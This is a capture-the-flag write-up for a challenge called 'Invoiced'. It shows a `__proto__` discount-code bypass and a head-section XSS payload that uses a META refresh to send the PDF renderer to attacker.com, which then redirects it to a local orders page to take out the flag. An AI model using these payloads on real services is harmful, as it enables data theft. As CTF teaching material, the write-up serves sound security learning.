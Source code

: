# Invoiced
## Purchasing
Due to a unfortunate mistake on my part, which I discovered too late, the `FREEZTUFSSZ1412` discountcode that I used for testing, was released in the source download. This step was therefore trivially bypassed.
The real challenge assumed that you didn't know it or that there was only a 20% discount.
<details>
  <summary>The solution to that would have been:</summary>
  
  Use the discountcode `__proto__`.

</details>

## Exfiltrating flag
The /renderInvoice used to generate the HTML for the PDF was vulnerable to XSS, but had a CSP to prevent any harm. It was also vulnerable to XSS in the head section, meaning that redirection with META tags could occur.
This allows an attacker to enter a name like:
```
test</title><meta http-equiv="refresh" content="0; url=https://attacker.com">
```
on which a website hosting the following is served:
```html
<html>
    <body>
        <script>document.location.href="http://localhost:5000/orders"</script>
    </body>
</html>
```